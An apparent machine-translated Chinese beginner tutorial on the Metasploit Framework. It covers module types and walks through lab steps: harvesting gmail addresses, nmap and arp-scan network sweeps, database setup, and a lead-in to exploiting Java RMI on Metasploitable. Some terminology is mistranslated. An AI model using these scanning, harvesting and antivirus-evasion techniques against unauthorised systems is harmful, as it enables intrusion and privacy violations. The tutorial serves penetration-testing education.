# Metasploit 框架——渗透测试和利用开发初学者指南

> 原文：<https://kalilinuxtutorials.com/metasploit-framework/>

[](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi5-33tkRgJkO9Jcfd912Irh4FiJVbQgVYIt48TcJziyt2a_V-eZNnCO1KwxBAgzNWi1Z0xfu2AHUdRiOnNmMwW460tgmWfAtvVVBw9_ARx0wk8qD8jT_9obTHUWNwWb8V0r7izYycNgXhMkh3-rXl3AFIyQZyYZqcZln9nirZ3HIdTWas5BsSGMJKM/s16000/Metasploit%20Framework.webp)

Metasploit 框架是一个漏洞、外壳代码、模糊工具、有效载荷、编码器等的集合。此外，我们可以将其视为捆绑到单个框架中的开发工具的集合。

它可以在所有主要的 Linux、Windows 和 OS X 平台上使用。它的主要目的是通过攻击来测试你/公司/组织的防御能力。类似于“以攻为守”。

这实际上是渗透测试人员/安全分析师在大规模侦察后开始攻击受害者的地方。Metasploit 拥有广泛的工具和实用程序，可以对包括 Android 和 iOS 在内的所有操作系统进行攻击。

## **Metasploit 框架历史**

Metasploit 最初是由 H.D.Moore 用 Perl 编写的。最初，它旨在成为一个可维护的框架，使开发过程自动化，而不是手动验证。第一个版本发布于 2003 年，由 8-11 人组成(确切人数不确定)，没有漏洞。

然后更多的贡献者合作&促成了 2006 年的一个主要版本 2.7，它包含了 150 多个漏洞。然后一个主要的变化是在版本 3。它是用 Ruby 重新编程的，并且是跨平台的。

此外，最酷的事情是，通过发布这个 Metasploit 框架版本，可以轻松地下载和添加新的漏洞和模块。2009 年，Rapid7 收购了该项目，并仍然拥有和维护它。尽管如此，现在 Metasploit 的基本架构没有改变&基本版本是免费的。

## **Metasploit 框架模块&接口**

Metasploit 框架有多种接口

*   **MSF console**——一个交互诅咒就像一个壳做所有任务。
*   **msf CLI**–从终端/cmd 本身调用 MSF 函数。不会改变终端。
*   **msfgui**–Metasploit 框架图形用户界面。
*   另一个用 Java 编写的图形工具，用来管理用 MSF 执行的 pentest。
*   **Metasploit 社区(或以上)web 界面**——rapid 7 提供的基于 Web 的界面，方便[pentest](https://cybersecuritynews.com/penetration-testing-phases/)。
*   **cobalt strike**–又一个 GUI，增加了后期开发、报告等功能。

## **Metasploit 框架模块**

### **利用**

漏洞是攻击者利用系统、服务、应用程序等内部缺陷的一种方法。攻击者通常利用这一点对他/她攻击的特定系统/服务/应用程序做一些开发人员/实现人员从未打算做的事情。有点像滥用。这是攻击者用来访问系统的东西。

漏洞总是伴随着有效载荷

资料来源:“Metasploit-pentester 指南”

### **有效载荷**

有效载荷是在成功开发的系统中运行的一段代码。在利用成功后，框架通过利用的漏洞(缺陷)注入有效载荷，并使其在目标系统中运行。因此，攻击者可以进入系统内部，或者使用有效载荷从受损系统中获取数据。

### **辅助**

提供额外的功能，如模糊，扫描，侦察，拒绝服务攻击等。辅助扫描横幅或操作系统模糊或对目标进行拒绝服务攻击。它不像漏洞那样注入有效载荷。意味着你不能使用辅助设备进入系统

来源:PacktPub 的“掌握 Metasploit”

### **编码器**

编码器用于混淆模块，以避免被防病毒或防火墙等保护机制检测到。这是我们创建后门时广泛使用的。后门被编码(甚至多次)并发送给受害者。

来源:PacktPub 的“掌握 Metasploit”

### **Shellcode**

外壳代码是攻击发生时用作有效负载的一组指令。外壳代码通常用汇编语言编写。在大多数情况下，在目标机器执行完一系列指令后，会提供一个命令 shell 或 Meterpreter shell，因此得名。

### **听众**

监听器监听来自注入受损系统的有效负载的连接。

### **发帖**

顾名思义，这些模块是用于后期开发的。在一个系统被入侵后，我们可以更深入地研究这个系统，或者把它作为一个支点，利用这些模块攻击其他系统

### **Nops**

Nop 是众所周知的针对 [x86 处理器](https://en.wikipedia.org/wiki/X86)的操作。这与 shellcode &机器语言指令有关。简而言之，它防止程序(这里是有效负载)在外壳代码中使用跳转语句时崩溃。

如果在发出跳转语句后，机器语言指令进入一个无效的内存位置，Nops 就会从头开始循环。从而防止有效载荷碰撞。这在某种程度上是一个高级概念，为了理解和使用 nop，您必须理解 shell 编码。

好了，废话说够了…让我们找点乐子吧。现在让我们继续一个教程。在接下来的文章中，我会让你了解 msfconsole 的基本知识和命令。

下面是关于 Metasploit 框架架构的简要框图

[](http://kalilinuxtutorials.com/et/metasploit-framework/attachment/msf11/)

Metasploit Architecture

## 实验 1:从搜索引擎收集公开的电子邮件 id。

在此 Metasploit 框架实验室中，我们将尝试从特定域收集电子邮件 id。这里我们通过 msfconsole 使用一个辅助模块。

### **步骤 1** :先决条件:启动&启用 [PostgreSQL](https://www.postgresql.org/) 服务，检查你的 IP，启动 Metasploit 服务& msfconsole

```
Command:service postgresql start
```

```
Command:update-rc.d postresql enable
```

```
Command: ip a | grep inet
```

```
Command: service metasploit start
```

```
Command: msfconsole
```

[](http://kalilinuxtutorials.com/et/metasploit-framework/attachment/msf2/)

Starting Services & initial setup

[](http://kalilinuxtutorials.com/et/metasploit-framework/attachment/msf1/)

The MSF-console

### **步骤 2** :采取 Metasploit 框架的初始步骤。

检查数据库并将其连接到 msfconsole。

```
Command:db_status
```

上面的命令检查是否有数据库连接。我将在接下来的文章中详细解释这一点。

如果 Metasploit 服务正确启动，将会有一个连接。否则，打开一个新的终端，启动服务(上面给出的命令),并遵循以下步骤:

```
db_connect msf3:msf3@localhost/msf3
```

然后再次检查数据库状态。如果没有成功，不要担心，msf 将工作良好，但没有数据库连接和一些扩展功能。有关解决方案，请查看以下链接中的步骤 2

### 第三步:我们继续。有一个辅助模块可以收集通过公司网站、社交档案等公开渠道找到的所有电子邮件。该模块的工作原理是在[搜索引擎如谷歌、必应&雅虎中搜索它们。](https://cybersecuritynews.com/google-alternative/)

在 msf 提示符下键入:

```
search email
```

[](http://kalilinuxtutorials.com/et/metasploit-framework/attachment/msf4/)

The Msf-console & Database status

[](http://kalilinuxtutorials.com/et/metasploit-framework/attachment/msf5/)

Modules listed after the search

这将显示模块列表。这里我们将使用一个辅助模块:辅助/收集/搜索 _ 电子邮件 _ 收集器

键入:

```
info auxiliary/gather/search_email_collector
```

这将显示模块的一些信息。

[](http://kalilinuxtutorials.com/et/metasploit-framework/attachment/msf6/)

Information of the module

### **步骤 4:** 让我们继续使用该模块

```
use auxiliary/gather/search_email_collector
```

此外，该模块还有某些选项，我们可以使用以下命令查看这些选项

```
show options
```

我们将搜索公开的 Gmail ids。因此，我们将域设置为 Gmail，并将输出保存到 gmails.txt。

```
set DOMAIN gmail.com
```

```
set OUTFILE /root/gmails.txt <make sure to use the absolute path here>
```

[](http://kalilinuxtutorials.com/et/metasploit-framework/attachment/msf7/)

Setting Options in the module

所有设置，我们现在可以运行辅助，但最好在运行前查看所有选项设置。

```
show options
```

关键时刻到了

```
run
```

[](http://kalilinuxtutorials.com/et/metasploit-framework/attachment/msf8/)

The module running & displaying results

[](http://kalilinuxtutorials.com/et/metasploit-framework/attachment/msf9/)

The module showing final results

成功完成后，结果将保存在我们指定的文件中。通过转到个人文件夹或打开一个新的终端来验证它，并键入:

```
Command: cat gmails.txt | less <replace with the filename you gave>
```

[](http://kalilinuxtutorials.com/et/metasploit-framework/attachment/msf10/)

读取输出文件

按 q 退出。

这是一个非常非常基本的 Metasploit 框架演示&专门为初学者制作的。此外，该模块对于在渗透测试期间收集公司的电子邮件 id 非常有用。您可以将域选项设置为您的目标域并运行。

Msfconsole 为框架中几乎所有可用的选项和设置提供了一个便捷的一体化界面；它就像是你所有剥削梦想的一站式商店。您可以使用 msfconsole 做任何事情，包括启动漏洞利用、加载辅助模块、执行枚举、创建侦听器或针对整个网络运行大规模漏洞利用。

Msfconsole 实际上是一个交互式 shell，通过它您可以轻松地动态使用 metasploit 框架。如上所述，我们可以利用这个交互式 shell 开发 metasploit 框架的所有功能。

最令人惊叹的特性是，即使核心框架发生变化(更新或模块发生变化), msfconsole 也能通过大量功能进行动态调整，如帮助系统、搜索命令、创建和管理用户、数据库、工作区、主机、漏洞等。

我们可以看到一个模块的信息和文档，看到匹配的有效载荷，当然也可以以一种互动和简单的方式运行利用。

更多与 Metasploit 和 MSFConsole 相关的术语和概念

*   数据库:一个专门的数据库，用于管理主机、ip 地址、范围、漏洞等信息。通常，我们可以为每个测试项目创建一个新的数据库。默认为 postgresql。
*   DB-用户:猜猜是什么…？使用数据库的用户。这在与 web 界面集成时变得非常方便。
*   工作空间:有点像每个项目的专属空间。对管理你的项目数据很有帮助。在 Web-UI 中创建新项目会在控制台中创建新工作区。

对于所有这些实验室，我们需要一些机器。您可以使用虚拟机或物理机。对于大多数实验，我使用 metasploitable。它有许多易受攻击的服务，专门为学习测试而设计。我建议你下载它，并使用它。设置网络，使您的 Kali Linux 机器和 Metasploitable 机器在同一网络中。

## Metasploit 框架选项

```
Core Commands 
    Command       Description
    -------       -----------
    ?             Help menu
    back          Move back from the current context
    banner        Display an awesome metasploit banner
    cd            Change the current working directory
    color         Toggle color
    connect       Communicate with a host
    edit          Edit the current module with $VISUAL or $EDITOR
    exit          Exit the console
    get           Gets the value of a context-specific variable
    getg          Gets the value of a global variable
    go_pro        Launch Metasploit web GUI
    grep          Grep the output of another command
    help          Help menu
    info          Displays information about one or more module
    irb           Drop into irb scripting mode
    jobs          Displays and manages jobs
    kill          Kill a job
    load          Load a framework plugin
    loadpath      Searches for and loads modules from a path
    makerc        Save commands entered since start to a file
    popm          Pops the latest module off the stack and makes it active
    previous      Sets the previously loaded module as the current module
    pushm         Pushes the active or list of modules onto the module stack
    quit          Exit the console
    reload_all    Reloads all modules from all defined module paths
    rename_job    Rename a job
    resource      Run the commands stored in a file
    route         Route traffic through a session
    save          Saves the active datastores
    search        Searches module names and descriptions
    sessions      Dump session listings and display information about sessions
    set           Sets a context-specific variable to a value
    setg          Sets a global variable to a value
    show          Displays modules of a given type, or all modules
    sleep         Do nothing for the specified number of seconds
    spool         Write console output into a file as well the screen
    threads       View and manipulate background threads
    unload        Unload a framework plugin
    unset         Unsets one or more context-specific variables
    unsetg        Unsets one or more global variables
    use           Selects a module by name
    version       Show the framework and console library version numbers

Metasploit Framework Database Backend Commands =========================

    Command           Description
    -------           -----------
    creds             List all credentials in the database
    db_connect        Connect to an existing database
    db_disconnect     Disconnect from the current database instance
    db_export         Export a file containing the contents of the database
    db_import         Import a scan result file (filetype will be auto-detected)
    db_nmap           Executes nmap and records the output automatically
    db_rebuild_cache  Rebuilds the database-stored module cache
    db_status         Show the current database status
    hosts             List all hosts in the database
    loot              List all loot in the database
    notes             List all notes in the database
    services          List all services in the database
    vulns             List all vulnerabilities in the database
    workspace         Switch between database workspaces
```

## Metasploit 框架实验室:初始设置

现在我们将为我们的新项目创建一个新的数据库、用户和工作空间。

注意:如果您了解 msfconsole 并且以前使用过它，请继续执行步骤 6。

### **步骤 1** :进行主机发现&执行枚举。

首先，我们必须识别网络上的设备&识别我们的目标。这个过程是通过 arp 扫描/nbtscan/netdiscover 来发现主机，然后找到开放的服务。显然，打开了大量异常端口的系统是最容易受到攻击的。

主机发现:下面发送了一堆 arp 请求，并向我们展示了网络中主机的响应。

```
Command: arp-scan 192.168.0.1/24<Enter your network Range>
```

简单的服务识别:下面只是识别网络上所有主机上开放的所有端口和服务。

```
Command: nmap -sS 192.168.0.1/24 -v
```

缩小我们的关注范围:从上面的结果中选择你的目标。现在我选择了 192.168.0.104，它有很多开放端口。下面的 [Nmap](https://kalilinuxtutorials.com/nmapautomator/) 命令在指定的目标上执行自动枚举脚本扫描。我们可以使用下面的代码来识别运行在主机上的确切版本&枚举服务

```
Command: nmap -sS -A 192.168.0.104 -vv
```

[](http://kalilinuxtutorials.com/et/msfconsole-1/attachment/msf2-1/)

Nmap Scanning

### **第二步**:同时设置 msfconsole。

根据我们指定的选项，脚本扫描可能需要很长时间。上述命令可能平均需要 5-10 分钟。同时，我们可以为我们的项目设置 msfconsole。现在这一步不一定是必不可少的，但它有助于保持有组织性。打开一个新的终端并执行以下操作。

启动服务:如果您在启动时启用了它，请跳过。

```
Command: service postgresql start
```

切换到 postgress &创建一个新的数据库&用户

```
Command:su postgress
```

```
command: createuser msfuser1 -P <replace "msfuser1" with your username>
```

输入两次密码。在这里，我给了“管理员”作为密码。如果你是认真的，记得把它变得复杂。

将用户设置为超级用户并创建数据库

```
Command: createdb msfproj1 --owner=msfuser1 <replace "msfproj1" with your database name & "msfuser1" with your username>
```

```
Command: exit
```

启动 msfconsole

```
Command: msfconsole
```

[](http://kalilinuxtutorials.com/et/msfconsole-1/attachment/msf2-8/)

Basic Configurations – Starting services & adding pgsql database & user

### **第三步:在 msfconsole 中连接新用户&DB&创建新的工作区**

断开默认的数据库&用户，并连接我们新创建的用户&数据库

```
msf> db_disconnect
msf> db_connect msfuser1:admin@localhost/msfproj1
```

上面的语法是

```
db_connect user:pass@host/dbname
```

如果有错误，请查看 db_connect -h 的帮助。之后，您可以看到数据库正在被填充，缓存正在被重建。

[](http://kalilinuxtutorials.com/et/msfconsole-1/attachment/msf2-9/)

Configuring Database in msfconsole

要查看当前工作区，

```
msf> workspace
```

添加一个新的工作空间并切换到它。

```
msf> workspace -a newproject <replace with your deesired name>
msf> workspace "newproject"
```

[](http://kalilinuxtutorials.com/et/msfconsole-1/attachment/msf2-10/)

Adding Workspace & Swtching to it

现在检查所有东西。

```
msf> db_status
msf> workspace
```

如果您遇到错误，请记住通过在命令后面加上“-h”来寻求帮助。如果一切正常，我们继续吧。

### **步骤 4** :将主机&服务填充到 metasploit db。

这是 msfconsole 很酷的功能之一。您可以向数据库添加主机、服务和漏洞。我们可以从 msfconsole 内部运行 nmap。所有结果也存储在数据库中。让我们看看它的运行。

在 msfconsole 中发出 nmap scan agian。这里唯一的区别是我们使用 db_nmap 而不是常规命令。

```
msf> db_nmap -sS 192.168.0.1/24 -vv
```

[](http://kalilinuxtutorials.com/et/msfconsole-1/attachment/msf2-11/)

Populating Database with db_nmap

这将填充主机和服务。我们将在后面的教程中看到 vulns。执行完成后，查看结果。

[](http://kalilinuxtutorials.com/et/msfconsole-1/attachment/msf2-12/)

Results of nmap

现在，查看数据库中当前存在的主机和服务。

```
msf> hosts
msf> services
```

够了，让我们开始真正的攻击。

### **步骤 5** :识别易受攻击的服务。

现在，这一步并不像它应该的那样。我没有描述漏洞分析，因为这会使帖子太长。我们将在后面的教程中详细讨论这一步。现在我们开发一个服务“java_rmi_server”。Java RMI 是 Java 远程方法调用，它允许在不同主机上的不同 Java 对象之间进行连接。我们的目标有一个脆弱的版本。所以让我们好好利用它。

更多关于 [Java RMI](http://docs.oracle.com/javase/7/docs/technotes/guides/rmi/) 的内容。

要识别 java_rmi_server，先看看我们做的 nmap 报告。

